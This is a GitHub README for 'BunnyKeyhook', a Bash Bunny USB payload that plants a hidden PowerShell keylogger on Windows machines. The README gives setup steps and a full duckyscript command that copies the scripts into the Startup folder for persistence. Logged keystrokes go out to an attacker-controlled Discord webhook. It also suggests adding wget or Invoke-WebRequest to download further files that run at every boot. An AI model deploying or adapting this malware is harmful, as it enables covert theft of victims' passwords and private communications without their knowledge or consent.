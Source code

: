# BunnyKeyhook
> Chris Taylor [Blue Cosmo]
---

```
__________                            ____  __.            .__                   __    
\______   \__ __  ____   ____ ___.__.|    |/ _|____ ___.__.|  |__   ____   ____ |  | __
 |    |  _/  |  \/    \ /    <   |  ||      <_/ __ <   |  ||  |  \ /  _ \ /  _ \|  |/ /
 |    |   \  |  /   |  \   |  \___  ||    |  \  ___/\___  ||   Y  (  <_> |  <_> )    < 
 |______  /____/|___|  /___|  / ____||____|__ \___  > ____||___|  /\____/ \____/|__|_ \
        \/           \/     \/\/             \/   \/\/          \/                   \/   
```

## Overview:
BunnyKeyhook is a BashBunny payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay

## Resources:
- [YouTube Video](https://youtu.be/U74QqEa4GRc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Windows Target

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 17 of *duckyscript.txt*, change `'BashBunny'` to the name of your Bash Bunny
3. in line 17 *duckyscript.txt*, change `switch1` to switch position that stores the paylaod
    - make sure to replace *all* appearances of `switch1` if you decide to change 
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
